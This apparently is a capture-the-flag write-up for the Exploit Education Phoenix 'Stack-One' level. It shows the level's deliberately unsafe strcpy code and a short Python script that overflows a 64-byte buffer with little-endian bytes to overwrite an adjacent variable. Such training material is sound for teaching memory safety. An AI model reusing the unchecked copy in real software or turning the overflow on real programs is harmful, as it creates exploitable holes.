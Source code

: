```yaml
---
title: Exploit Education > Phoenix > Stack-One
date: '2021-09-25'
draft: false
---
```


Stack-One is an ASCII challenge. It's described by the following C code:

```
/*
 * phoenix/stack-one, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x496c5962
 *
 * Did you hear about the kid napping at the local school?
 * It's okay, they woke up.
 *
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  if (argc < 2) {
    errx(1, "specify an argument, to be copied into the \"buffer\"");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, argv[1]);

  if (locals.changeme == 0x496c5962) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n",
        locals.changeme);
  }

  exit(0);
}
```

When looking at the code, the following line catches the eye immediately:

```
strcpy(locals.buffer, argv[1]);
```

Our `main` function uses `strcpy` without validating our inputs size first! If we look at our `locals` struct (of which `buffer` is strcpy's destination), we can see that it also contains the volatile `changeme` variable.

```
struct {
    char buffer[64];
    volatile int changeme;
  } locals;
```



The goal of this challenge is to change `changeme` to `0x496c5962`. The solution to this exercise is similar to the one we used for `Stack-Zero`: We write 64 characters into `argv` at the start of the program and `0x496c5962` after that. We want to write the actual number `0x496c5962` into `changeme`, but our terminal only provides us the with possibility to enter characters.

One solution for this is to convert `0x496c5962` into an ASCII string. Most ASCII characters fall into a range between 0 and 255, a.k.a 2 to the power of 8 possible characters, or one byte. Since a single hex digit stores 4 bit of information, we split `0x496c5962` into small packets for two digits each. This leaves us with `0x49` `0x6c` `0x59` and `0x62`. Translate that into human readable ASCII characters and you get `IlYb`.

To solve this challenge, we need to pipe 64 characters into `argv` to pad the buffer into overflowing and `IlYb` to set `changeme` to `0x496c5962`. To do this in an easy way, we can yet again use python for our needs:

```
# stack-one.py

padding = '0' * 64
changeme = 'IlYb'

print(padding + changeme)
```

Note that in python, instead of converting a known string of numbers to ASCII characters, we could just print bytes instead!

```
# stack-one.py

padding = '0' * 64
changeme = '\x49\x6c\x59\x62'

print(padding + changeme)
```



Calling `./stack-one $(python3 stack-one.py)` should print the following message:
`> Well done, you have successfully set changeme to the correct value`

```
> ./stack-one $(python3 stack-one.py)

> Getting closer! changeme is currently 0x62596c49, we want 0x496c5962
```

Huh. Seems like we did indeed change `changeme`, but it's value is *reversed*. To understand what's actually going on here, we have too take yet another look at `Stack-One`'s description:

*Having troubles? How does the endianness of the architecture affect the layout of how variables are laid out?*

Since we are on an x86 linux system, we know that we're using `little-endian`. The following image explains the difference in storage layout:

![Endianness](Endianness.png)

Values in `little-endian` seem to be *reversed* compared to how a human would naturally read them. To spare programmers the pain of having to write values reversed if their host system is little endian, compilers automatically look up if their system is little endian and emit any value in the approriate format. If we changed `changeme` to `0x496c5962` *inside* `stack-zero-c` and compiled it via `gcc`, our compiler would write it as `0x62596c49` *in memory*, pointing to its "end" `0x49` as the first value.

Our mistake immediately becomes clear: We naturally write our target value 0x496c5962 from left to right into `stack-one`'s arguments. When its `main` function stores the `argv[1]` value in `locals.buffer`, causing a buffer overflow, it writes `0x496c5962` into `changeme`'s memory location *without any compiler intervention*. In memory, `changeme` reads `0x496c5962` but is read from right to left because our system is little-endian. To correct for this, we just have to reverse `0x496c5962` so it fits inside memory in the correct way.

This can be achieved by changing our little python snippet accordingly:
```
# stack-one.py

padding = '0' * 64;
changeme = 'IlYb'[::-1] # short syntax for reversing a string

print(padding + changeme)
```

Using our newly adjusted script, we can see that we successfully solved this challenge!

```
> ./stack-one $(python3 stack-one.py)

> Well done, you have successfully set changeme to the correct value
```
